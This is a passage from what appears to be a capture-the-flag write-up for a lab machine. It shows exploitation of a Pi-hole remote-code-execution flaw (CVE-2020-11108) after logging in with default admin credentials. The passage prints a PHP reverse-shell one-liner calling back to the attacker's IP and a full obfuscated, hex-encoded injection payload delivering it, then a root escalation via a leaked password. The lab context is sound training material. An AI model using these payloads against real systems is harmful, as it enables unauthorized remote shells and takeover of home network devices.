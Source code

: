 {{< image src="images/image-20200801213125467.png" >}}


Googling port 5553 confirms what we see in the TODO file: it's running the Pi-hole:

```
bryan@unbalanced:~$ cat TODO
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]

###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO
```

The Pi-hole has an RCE CVE documented here: https://frichetten.com/blog/cve-2020-11108-pihole-rce/

I'll establish an SSH local forward with `ssh -L 9080:127.0.0.1:8080 bryan@10.10.10.200` then reach the admin interface on port 8080. Fortunately the `admin / admin` credentials work and we're able to get in.

{{< image src="images/image-20200801213759929.png" >}}


We'll just modify the PoC exploit with the right IP for our machine: `php -r '$sock=fsockopen("10.10.14.18",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

The final payload looks like this:

```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202D72202724736F636B3D66736F636B6F70656E282231302E31302E31342E3138222C34343434293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27"));'&&
```

{{< image src="images/image-20200801214200971.png" >}}


{{< image src="images/image-20200801214225678.png" >}}


Looking around the container we find a password in the `pihole_config.sh` file:

{{< image src="images/image-20200801214525034.png" >}}


We can su as root with those creds and pwn the last flag:

{{< image src="images/image-20200801214629712.png" >}}
